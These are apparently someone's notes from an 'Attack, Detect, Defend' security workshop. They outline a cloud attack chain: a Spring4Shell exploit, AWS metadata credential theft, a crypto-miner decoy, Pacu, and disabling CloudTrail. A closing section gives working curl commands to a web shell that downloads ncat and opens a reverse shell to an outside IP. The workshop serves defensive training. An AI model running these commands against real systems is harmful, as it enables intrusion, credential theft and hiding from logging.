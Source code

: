 # Workshop: Attack, Detect, Defend

The exercise has a couple phases: get credentials, escalate privileges.

## 5/5/5 benchmark

You have 5 seconds to detect intrusion, 5 minutes to see what's happening and 5 minutes to initiate response.

## The Workshop

The first steps happen inside a VM where you can exploit a vulnerable application

- Scan some things using nmap `nmap -p- 54.167.78.225`
- Go to some open ports to find what's running. It's Spring so Spring4Shell wieeeeee!
- Copy-paste some `curl` commands that leverage in <https://github.com/craig/SpringCore0day>
- Hey ho let's go, reverse shell! _More information below_
- When running on AWS, use `curl` to retrieve things from metadata service and get the credentials for the instance
- Start a crypto miner as a decoy and steal the credentials
- Configure the `aws` cli using the stolen credentials and stop _CloudTrail_. Normally this fails because a lack of permissions, but this would be really funny if it worked.
- Use something like [Pacu](https://rhinosecuritylabs.com/aws/pacu-open-source-aws-exploitation-framework/) to find exploits. It's something like Metasploit, but for cloud.
- Using Pacu, you get a set of backdoor credentials for an admin user, great! Use these credentials to disable CloudTrail logging.

The second steps happen inside the Sysdig console

- _This is going so fast, I've got no clue_

## Links

- <https://sysdig.com/blog/cloud-breach-terraform-data-theft/>
- <https://t.ly/zPXOK> but remeber to not click on shortened links!

## How to reverse shell

```shell
curl --output - "http://54.167.78.225:31766/tomcatwar.jsp?pwd=j" -s --data-urlencode "cmd=wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat" | grep -a -v request.getParameter | sort | uniq | sed '/^\/\//d'
curl --output - "http://54.167.78.225:31766/tomcatwar.jsp?pwd=j" -s --data-urlencode "cmd=chmod +x ncat" | grep -a -v request.getParameter | sort | uniq | sed '/^\/\//d'
curl --output - "http://54.167.78.225:31766/tomcatwar.jsp?pwd=j" -s --data-urlencode "cmd=chmod +x ncat" | grep -a -v request.getParameter | sort | uniq | sed '/^\/\//d'

nohup sh -c 'sleep 3 && curl --output - "http://54.167.78.225:31766/tomcatwar.jsp?pwd=j" -s --data-urlencode "cmd=./ncat 54.158.240.134 34444 -e /bin/bash" | grep -a -v request.getParameter | sort | uniq | sed "/^\/\//d"' 2>/dev/null &
nc -lnvp 34444

:
```

